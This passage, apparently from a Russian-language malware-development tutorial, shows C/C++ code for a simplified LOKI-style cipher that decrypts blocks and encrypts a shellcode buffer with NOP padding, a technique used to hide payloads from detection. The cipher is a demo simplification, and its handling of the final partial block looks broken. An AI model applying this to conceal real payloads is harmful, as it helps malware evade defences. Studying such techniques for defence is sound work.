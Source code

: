 Также по аналогии реализуем логику расшифровки:

```cpp
void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

Затем нам понадобится функция `loki_encrypt_shellcode` для шифрования заданного шеллкода с использованием блочного шифра LOKI:

```cpp
void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Как это работает?

Цикл по шеллкоду в блоках `8-byte`:

```cpp
for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
}
```
